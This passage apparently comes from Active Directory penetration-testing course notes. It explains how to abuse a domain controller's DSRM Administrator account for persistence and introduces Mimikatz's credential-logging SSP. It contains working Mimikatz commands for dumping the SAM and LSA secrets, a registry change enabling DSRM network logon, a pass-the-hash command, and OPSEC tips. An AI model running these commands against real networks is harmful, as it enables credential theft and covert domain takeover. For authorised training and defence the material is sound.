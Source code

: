 - There is a local admin is every DC called *Administrator* whose password is the DSRM password
- DSRM password (**SafeModePassword**) is required when a server is promoted to DC and its rarely changed
- After altering the configuration on the DC, its possible to pass the NTLM hash of this user to access the DC

**Dump DSRM password**:

> needs DA privs

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```

**Compare the Administrator hash with the Administrator hash of below command**:
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

> First one is the DSRM local Administrator 


- Since it is the local administrator of the DC, we can pass the hash to authenticate.

But, **the Logon Behavior for the DSRM account needs to be changed before we can use its hash**:
```powershell
Enter-PSSession -Computername dcorp-dc New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

**Use below command to pass the hash**:
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"' 
ls \\dcorp-dc\C$
```


Learning Objective 11

- Use Domain Admin privileges obtained earlier to abuse the DSRM credential for persistence.

> OPSEC order: **Silver** > **Diamond** > **Golden**




## Custom SSP

A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are:
```
– NTLM
– Kerberos
– Wdigest
– CredSSP
```

Mimikatz provides a custom SSP - **mimilib.dll**. This SSP logs local logons, service account and machine account passwords in clear text on the target server.
